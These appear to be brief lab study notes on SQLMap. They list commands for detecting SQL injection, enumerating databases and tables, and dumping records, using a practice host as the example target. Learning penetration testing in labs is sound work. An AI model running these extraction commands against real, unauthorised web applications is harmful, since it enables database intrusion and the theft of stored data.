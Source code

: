 
- "SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. It simplifies the process of identifying these vulnerabilities."
- `sqlmap --update`
- `sqlmap --help`
- `sqlmap --wizard`
- `--dbs` - flag for extracting database names, e.g. `sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs`
- `-D database_name --tables` - extract information about the tables of `database_name`
- `-D database_name -T table_name --dump` - enumerate records in `table_name`
- If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the -u flag in the SQLMap tool.
- `sqlmap -r intercepted_request.txt
- `--drop-heuristic`
- `--dbms=mysql` - specify a specific database management system (in this case: `mysql`)